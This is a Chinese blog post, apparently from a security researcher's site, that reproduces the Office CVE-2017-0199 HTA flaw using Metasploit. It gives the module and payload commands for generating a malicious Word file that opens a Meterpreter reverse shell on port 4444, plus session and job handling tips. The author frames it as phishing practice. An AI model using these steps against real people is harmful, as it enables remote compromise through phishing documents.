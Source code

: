 Title:用office的CVE-2017-0199漏洞进行钓鱼（二）
Date: 2017-12-22 10:20
Category: 漏洞实践
Tags: office,漏洞,钓鱼
Slug: 
Authors: bit4
Summary: HTA Handler Vulnerability



上一篇已经一步一步手动复现了该漏洞，也弄清楚了一些小的疑问，本篇将使用metasploit进行复现。

### 0x0、metasploit的复现过程

```
msfupdate
msfconsole
search CVE-2017-0199
```

如果更新后找不到模块，可以直接到github上下载

https://github.com/rapid7/metasploit-framework/issues/8220

https://github.com/rapid7/metasploit-framework/pull/8254

![msf_search](img/CVE-2017-0199-msf/msf_search.png)

而后加载该模块，并且设置各项参数，比如payload等。

```
use exploit/windows/fileformat/office_word_hta
set payload windows/meterpreter/reverse_tcp
show options
run
```

![msf_options](img/CVE-2017-0199-msf/msf_run.png)

成功生成了恶意文件并监听4444端口之后，我们就可以保存msf.doc文件到本地并执行了。

```
新开一个shell然后执行
sz  /root/.msf4/local/msf.doc
```

![success](img/CVE-2017-0199-msf/success.png)

可以看到成功反弹了shell。注意，要想成功反弹shell，需要保证监听服务器和webdav服务器在运行msf.doc的主机上都可以正常访问才行。

### 0x1、关于metasploit

1. 一个监听端口可以接收多个反弹会话的。

2. sessions的操作，当前session到后台运行 `background` , 进入某个session：session session_ID

   ![session_operation](img/CVE-2017-0199-msf/session_operation.png)

3. jobs的操作，将某个job调用到前台：use exploit/xxx/xxx；将当前job调到后台：back ；杀死某个job：kill job_id

   ![job_operation](img/CVE-2017-0199-msf/job_operation.png)

   ![kill_job](img/CVE-2017-0199-msf/kill_job.png)

4. 有一个小坑：阿里云的VPS（ECS）上，所有网卡上的IP地址都是内网地址，没有外网地址（应该是有映射机制，当访问外网地址http://外网IP:8080/default.hta 会被映射到内网地址http://内网IP:8080/default.hta，验证过的），而msf绑定SRVHOSR:SRVPORT的时候似乎是根据网络来的，所以就无法绑定外网地址，上面的例子里，就无法将HTA的URL向外网开放。有前面说的映射机制，应该也能访问到才对啊，但问题是生成的msf.doc文件中，写死了要请求的URL（即内网的URL，尝试了手动更新，也未成功）。只好换个vps进行实验了。